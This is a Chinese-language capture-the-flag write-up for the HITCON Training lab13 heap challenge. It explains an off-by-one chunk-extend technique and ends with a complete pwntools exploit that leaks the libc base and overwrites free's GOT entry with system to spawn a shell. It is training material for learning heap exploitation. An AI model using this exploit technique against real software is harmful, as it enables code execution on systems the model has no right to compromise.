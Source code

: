 # chunk extend

题目：

HITCON Trainging lab13

程序分析：

create : 长度没有进行检测，如果为负数，会导致任意长度堆溢出漏洞

edit :存在 off-by-one 漏洞

利用思路

- 利用 Off-by-one 漏洞覆盖下一个 chunk 的 size 字段
- 申请伪造的chunk大小，造成 overlapping, 修改 fd/bk指针

要注意因为 chunk0 大小是 0x18，会用到 chunk1 的 pre_size 部分。

然后溢出的时候刚好可以覆盖到 chunk1 的 size 部分。

然后堆布局基本是这样的：

chunk1 info(0x20) | chunk1 | chunk2 info | chunk2



所以我们 chunk1 溢出修改的是 chunk2 info 的 size, 然后这个 chunk 就会覆盖到 chunk2 的信息，

从而我们可以修改 chunk2 信息，可以用来 leak info, 修改 got 表。

内存变化

这个覆盖了 size 后的 layout

```python
gef➤  x/16gx 0xb3c010-0x10
0xb3c000:	0x0000000000000000	0x0000000000000021
0xb3c010:	0x0000000000000018	0x0000000000b3c030
0xb3c020:	0x0000000000000000	0x0000000000000021
0xb3c030:	0x0068732f6e69622f	0x6161616161616161
0xb3c040:	0x6161616161616161	0x0000000000000041
0xb3c050:	0x0000000000000010	0x0000000000b3c070
0xb3c060:	0x0000000000000000	0x0000000000000021
0xb3c070:	0x0000000a62626262	0x0000000000000000
```

然后我们 delete 1, 根据程序分析，会 free 掉 chunk1 info 和 chunk1 这两个堆块。

然后我们再 malloc 一个 0x30 的 chunk。

这时候会 malloc 一个 0x20 的 info chunk，然后malloc 一个 0x40 的实际 chunk.

自己画下图就明白了，最后我们可以修改 info chunk 中指向对应 chunk 的指针，这样show的时候就可以泄露地址了，再改写 free 的 got 表为 system， 最后成功 getshell。



这道题主要是要搞清楚 chunk 和 info chunk，在堆中实际的 layout。最终就改写了指向 chunk 的 Ptr，利用 show 和 delete 函数，达到 leak info 和 getshell 的目的。



最终 exp

```python
from pwn import *

r = process('./heapcreator')
heap = ELF('./heapcreator')
libc = ELF('./libc.so.6')

context_level = 'debug'

def create(size, content):
    r.recvuntil(":")
    r.sendline("1")
    r.recvuntil(":")
    r.sendline(str(size))
    r.recvuntil(":")
    r.sendline(content)


def edit(idx, content):
    r.recvuntil(":")
    r.sendline("2")
    r.recvuntil(":")
    r.sendline(str(idx))
    r.recvuntil(":")
    r.sendline(content)


def show(idx):
    r.recvuntil(":")
    r.sendline("3")
    r.recvuntil(":")
    r.sendline(str(idx))


def delete(idx):
    r.recvuntil(":")
    r.sendline("4")
    r.recvuntil(":")
    r.sendline(str(idx))


#gdb.attach(r)
create(0x18,'aaaa')
create(0x10,'bbbb')

edit(0,'/bin/sh\x00'+'a'*0x10+"\x41")
delete(1)
create(0x30, p64(0) * 4 + p64(0x30) + p64(heap.got['free']))  #1
show(1)

r.recvuntil("Content : ")
data = r.recvuntil("Done !")

free_addr = u64(data.split("\n")[0].ljust(8, "\x00"))
log.success('free base addr: ' + hex(free_addr))
libc_base = free_addr - libc.symbols['free']
log.success('libc base addr: ' + hex(libc_base))
gdb.attach(r)
system_addr = libc_base + libc.symbols['system']
#raw_input('1')                                                                    

edit(1, p64(system_addr))

# trigger system("/bin/sh")
delete(0)

r.interactive()

```

